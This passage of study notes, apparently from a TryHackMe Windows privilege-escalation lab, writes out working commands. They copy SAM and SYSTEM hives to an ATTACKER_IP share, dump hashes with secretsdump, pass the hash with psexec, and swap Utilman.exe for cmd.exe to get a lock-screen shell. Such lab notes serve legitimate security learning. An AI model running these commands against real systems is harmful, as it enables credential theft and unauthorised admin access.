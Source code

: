 Copy these to the attacker machine, maybe using smbserver.py:
```
mkdir share
python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
```

Then on the target copy them over
```
copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\
```

Get password hashes:
```
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```

Then use a pass-the-hash attack:
```
python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 
```

#### SeTakeOwnership
Allows the user to take ownership of any file.  For example we could take over utilman and replace it with cmd.exe to give us an admin cmd from the lock screen.

Open an admin prompt then take ownership of utilman with `takeown /f C:\Windows\System32\Utilman.exe`.  Give yourself full perms `icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F` then from system32 replace with cmd.exe `copy cmd.exe utilman.exe`.

Now on the lock screen click the "Ease of Access" button to get a shell.

### Abusing Vulnerable Software
Have a look around and see what's installed.  There might be old software we can loop up on https://www.exploit-db.com/ or https://packetstormsecurity.com/.  The command `wmic product get name,version,vendor` can be used to list installed software.

### Useful scripts
#### WinPEAS
Can enumerate a target system to uncover priv escalation paths. https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS

#### PrivescCheck
Powershell script that looks for common priv esc routes.  https://github.com/itm4n/PrivescCheck

#### WES-NG: Windows Exploit Suggester - Next Generation
Runs on the attack machine instead of the target, avoids AV.  https://github.com/bitsadmin/wesng


# Log parsing

## Tools
- Chainsaw - https://github.com/countercept/chainsaw
